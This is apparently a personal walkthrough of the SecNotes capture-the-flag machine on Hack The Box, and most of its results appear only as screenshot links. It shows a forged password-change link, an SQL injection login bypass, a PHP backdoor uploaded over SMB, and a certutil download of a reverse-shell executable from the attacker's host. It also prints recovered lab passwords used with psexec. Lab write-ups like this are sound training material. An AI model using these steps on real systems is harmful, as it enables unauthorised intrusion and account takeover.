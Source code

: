 **Ping**
![[Pasted image 20240703174014.png]]

**Nmap Scans**
```
mapit 10.10.10.97
```

Nmap Default Scan
![[Pasted image 20240703174105.png]]

Nmap Service and Script Scan
![[Pasted image 20240703174402.png]]
![[Pasted image 20240703174414.png]]

Nmap All port Scan
![[Pasted image 20240703174710.png]]

Nmap Service and Script Scan for new port
![[Pasted image 20240703175831.png]]

On Port 80
![[Pasted image 20240703174135.png]]
tried with default admin passwords, but it say's the is no account name admin

So registered new user test with password test@1234 and logged in
![[Pasted image 20240703174332.png]]

No smb Session
![[Pasted image 20240703175234.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240703175324.png]]Nothing Intresting

Something Intresting in the contact us area
![[Pasted image 20240703181012.png]]
Tyler is clicking whatever link we send to him

![[Pasted image 20240703181047.png]]

So will trick him to change password, by sending malicious link
For that we need to capture the request response of the change password functionality
![[Pasted image 20240703181740.png]]

![[Pasted image 20240703181721.png]]

Will send him this corrupted link, I have added my address, just to make sure is he click the link accordingly.
```
http://10.10.10.97/change_pass.php?password=rosh@3000&confirm_password=rosh@3000&submit=submit
http://10.10.14.3:8080
```
![[Pasted image 20240703182655.png]]
I think he clicked the link accordingly, now will check the password has been changed or not

But it didn't work, I don't Know the reason, Though I have checked walkthroughs and official writeup, for some unknown reason, it didn't work for me. But I found other way to exploit this from this link: https://www.hackingarticles.in/hack-the-box-secnotes-walkthrough/

Will use this ' or 1='1  to  create the account and logged in with the same **' or 1='1:' or 1='1**
Can get into tyler's account
![[Pasted image 20240703184813.png]]

Will analyse the notes
![[Pasted image 20240703184835.png]]
Found tyler's password **92g!mA8BGjOirkL%OG*&**

We can only try this password in one place, it is smb
```
smbclient -U 'tyler' -L //10.10.10.97
```
![[Pasted image 20240703185113.png]]
Now we can list the shares, will analyze the new-site

SMB session
```
smbclient \\\\10.10.10.97\\new-site\\ -U tyler
```
![[Pasted image 20240703185831.png]]

Surly it should the IIS service on port 8808
will put a cmdasp.aspx to ger RCE
It doesn't work, tried with bot .aspx and asp

Will try with simple-backdoor.php
![[Pasted image 20240703190403.png]]
![[Pasted image 20240703190347.png]]

Will Jump to Initial Foothold.....!

Now will get Reverse Shell
```
ertutil -urlcache -f http://10.10.14.3/rev.exe rev.exe
```
![[Pasted image 20240703191143.png]]

Will trigger that
![[Pasted image 20240703191220.png]]

Will trigger that
```
C:\inetpub\new-site\rev.exe
```
![[Pasted image 20240703191310.png]]

I have already started my netcat listener 
Got shell
![[Pasted image 20240703191349.png]]

**User.txt**
![[Pasted image 20240703191629.png]]



Found some files
```
Get-ChildItem -Path C:\Users -Include *.txt, *.log, *.kdbx, *.conf, *.ini, *.exe, *.ps1 -File -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20240703191757.png]]

Will check our Privilege
```
whoami /priv
```
![[Pasted image 20240703191857.png]]

Will analyse this bash.lnk
![[Pasted image 20240703192400.png]]

Nothing works for me in this lab, so found admin's password and got session via psexec
```
psexec.py "administrator:u6\!4ZwgwOM#^OBf#Nwnh"@10.10.10.97 cmd.exe
```
![[Pasted image 20240703194103.png]]

Root.txt
![[Pasted image 20240703194219.png]]




Not yet.......! 